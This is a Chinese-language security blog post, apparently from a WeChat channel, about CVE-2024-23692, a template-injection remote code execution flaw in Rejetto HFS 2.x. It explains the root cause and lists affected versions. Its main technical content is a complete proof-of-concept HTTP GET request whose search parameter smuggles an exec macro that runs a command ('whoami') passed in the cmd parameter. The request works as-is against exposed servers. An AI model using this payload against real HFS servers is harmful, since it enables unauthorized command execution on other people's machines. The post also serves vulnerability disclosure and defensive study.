 #  CVE-2024-23692｜Rejetto HFS 2.x 远程代码执行漏洞（POC）   
alicy  信安百科   2024-06-14 09:00  
  
**0x00 前言**  
  
  
HFS（HTTP File Server）是一个基于HTTP协议的文件服务器软件，允许用户通过浏览器访问和共享计算机上的文件。HFS的起源可以追溯到2002年，由Rejetto开发并发布。  
  
HFS的主要特点包括界面简洁直观、易于安装和配置、支持虚拟文件系统、支持多种权限设置等。通过HFS，用户可以轻松地在本地网络或互联网上共享文件和文件夹，无需安装额外的软件，只需使用一个支持HTTP协议的浏览器即可访问和下载文件。  
  
  
  
**0x01 漏洞描述**  
  
****  
根本原因在于服务器处理用于呈现 HTTP 响应的默认模板的方式。  
  
此模板包含来自请求的搜索查询参数的内容，该内容未正确转义，从而启用了
SSTI
在正常操作下，符号和宏会被编码以防止 SSTI。但是，通过强制服务器取消转义某些字符，攻击者可以将任意宏注入模板。  
  
  
  
**0x02 CVE编号**  
  
  
CVE-2024-23692  
  
  
  
**0x03 影响版本**  
  
  
Rejetto HFS 2.x  
  
  
  
**0x04 漏洞详情**  
  
  
POC：  
```
GET /?n=%0A&cmd=whoami&search=%25xxx%25url%25:%password%}{.exec|{.?cmd.}|timeout=15|out=abc.}{.?n.}{.?n.}RESULT:{.?n.}{.^abc.}===={.?n.} HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: HFS_SID_=0.590236319694668
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6uqBWicrNFmy3gLKMzrwtbDtCBtSWYxcibvibOqwEG39gXSBjQ1BdU0FEC1ITlpFAN8A6gicnorUkbK5eQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
**0x05 参考链接**  
  
  
https://github.com/rapid7/metasploit-framework/pull/19240  
  
  
https://www.rejetto.com/hfs/?f=dl  
  
  
  
  
推荐阅读：  
  
  
[CVE-2024-21683｜Atlassian Confluence远程代码执行漏洞（POC）](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485351&idx=2&sn=0adc42b4d60e706882552cdd8c61db21&chksm=cea96e7ef9dee7686226667380cede00bff25f0cfbeb37361ea7e4d10ef65d4c526ba54168f8&scene=21#wechat_redirect)  
  
  
  
[CVE-2024-27130｜QNAP 存在未经身份验证的RCE漏洞（POC）](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485311&idx=1&sn=b1a169294dbb58cd7913d36bbf9f3f0c&chksm=cea96ea6f9dee7b09457245369acda315d405d226749cf4e786c10f038806cb4e660599d0e2e&scene=21#wechat_redirect)  
  
  
  
[CVE-2024-32399｜RaidenMAILD Mail Server路径遍历漏洞（POC）](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485273&idx=1&sn=a82529b85eefa1d75072e8232300c89d&chksm=cea96e80f9dee79628ca2241d263499ea7ac27e121407aec485efe779f09d07842ea95f2f0c7&scene=21#wechat_redirect)  
  
  
  
  
  
Ps：国内外安全热点分享，欢迎大家分享、转载，请保证文章的完整性。文章中出现敏感信息和侵权内容，请联系作者删除信息。信息安全任重道远，感谢您的支持![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6urTIficI8UhQibwpYWx4ic7Bk40AJlXrgx3icofWCbd5cbJFheld132R8exvlHnicn0AUjHLmVok4wV9qA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
！！！  
  
  
**本公众号的文章及工具仅提供学习参考，由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用者本人负责,本公众号及文章作者不为此承担任何责任。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6uqQ24S6worK6npevNP8p1uPc9jQeMAib2iaibBnibOzFaIbD0KlvsEtUAmL3xdbJJnWk74Y1KfBcIazzw/640?wx_fmt=png "")  
  

